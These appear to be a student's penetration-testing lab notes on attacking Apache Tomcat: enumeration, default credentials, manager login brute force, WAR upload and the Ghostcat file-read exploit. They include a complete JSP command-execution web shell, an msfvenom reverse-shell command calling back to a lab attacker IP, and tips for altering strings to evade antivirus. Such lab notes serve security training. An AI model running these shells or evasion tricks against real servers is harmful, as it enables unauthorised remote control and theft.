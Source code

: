 # Discovery and Enumeration 
## Discovery
```shell
curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat 
```
### General Folder Structure of Tomcat
```
├── bin
├── conf
│   ├── catalina.policy
│   ├── catalina.properties
│   ├── context.xml
│   ├── tomcat-users.xml
│   ├── tomcat-users.xsd
│   └── web.xml
├── lib
├── logs
├── temp
├── webapps
│   ├── manager
│   │   ├── images
│   │   ├── META-INF
│   │   └── WEB-INF
|   |       └── web.xml
│   └── ROOT
│       └── WEB-INF
└── work
    └── Catalina
        └── localhost
```
* `Bin` folder stores scripts and binaries for Tomcat to run
* `Conf` folder stores various configuration files used by Tomcat.
	* `tomcat-users.xml` file stores user credentials and their assigned roles. 
* `lib` folder holds various JAR files needed for Tomcat to function 
* `work` folder acts as a cache and used to store data during runtime. 
* `webapps` folder is the default webroot
```shell
webapps/customapp
├── images
├── index.jsp
├── META-INF
│   └── context.xml
├── status.xsd
└── WEB-INF
    ├── jsp
    |   └── admin.jsp
    └── web.xml
    └── lib
    |    └── jdbc_drivers.jar
    └── classes
        └── AdminServlet.class   
```
* Each Folder is expected to have the same format. 
* `WEB-INF/web.xml` is known as the deployment descriptor. 
	* Stores information about the routes used by the application and the classes.
* All compiled classes used by the application should be stored in `WEB-INF/classes` 
	* These might contain important business logic and sensitive information. 
	* A Vulnerability here could compromise the whole web server.
* `jsp` folder contains [Jakarta Server Pages](https://en.wikipedia.org/wiki/Jakarta_Server_Pages) which are similar to PHP files. 
#### Example Web.xml
```xml
<web-app>
  <servlet>
    <servlet-name>AdminServlet</servlet-name>
    <servlet-class>com.inlanefreight.api.AdminServlet</servlet-class>
  </servlet>

  <servlet-mapping>
    <servlet-name>AdminServlet</servlet-name>
    <url-pattern>/admin</url-pattern>
  </servlet-mapping>
</web-app>   
```
* First a new serverlet named `AdminServlet`. This is mapped to the class `com.inlanefreight.api.AdminServlet`. 
	* As Java uses dot notation the class is stored in `classes/com/inlanefreight/api/AdminServlet.class`
* Second a servlet mapping is created to map requests to `/admin`. This means any requests for `/admin` will redirect to `AdminServlet.class`. 
#### Example tomcat-users.xml
```xml
!-- user manager can access only manager section -->
<role rolename="manager-gui" />
<user username="tomcat" password="tomcat" roles="manager-gui" />

<!-- user admin can access manager and admin section both -->
<role rolename="admin-gui" />
<user username="admin" password="admin" roles="manager-gui,admin-gui" />
```
* Shows what each roles have access to and the  passwords for them
## Enumeration
* Want to look for `/manager` and the `/host-manager` pages.
```shell
gobuster dir -u http://web01.inlanefreight.local:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt 
```
* Attempt to use credentials such as `tomcat:tomcat`, `admin:admin`
# Attacking Tomcat
## Tomcat Manager 
### Login Brute Force
```shell
use auxillary/scanner/http/tomcat_mgr_login set VHOST web01.inlanefreight.local
set RPORT 8180
set stop_on_success true
set rhosts 10.129.201.58
```
If not behaving correctly, set a proxy up with burp
```shell
set PROXIES HTTP:127.0.0.1:8080
```
### WAR File Upload
* Many Tomcat installations provide a GUI interface to manage the applications. 
* Interface is located at `/manager/html` by default. 
* Valid credentials can be used to upload a .WAR file. 
#### Example WAR Shell
```java
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```
```shell
curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id
```
#### MSFVenom
```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war
```
#### MSFConsole
[multi/http/tomcat_mgr_upload](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/)

#### Lightweight Shell
https://github.com/SecurityRiskAdvisors/cmd.jsp
* Wont get detected on many AVs. 
* Change some strings to make it even hard to detect:
```java
FileOutputStream(f);stream.write(m);o="uPlOaDeD:
```

## CVEs
### CVE-2020-1938 Ghostcat
https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi
* Unauthenticated LFI. 
* All Tomcat versions before `9.0.31`, `8.5.51`, `7.0.100` were vulnerable.
* Misconfigured Apache Jserv Protocol (AJP),
	* Usually running on port 8009
```shell
nmap -sV -p 8009,8080 app-dev.inlanefreight.local

<snip>

8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 9.0.30
```

```shell
python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml 
```
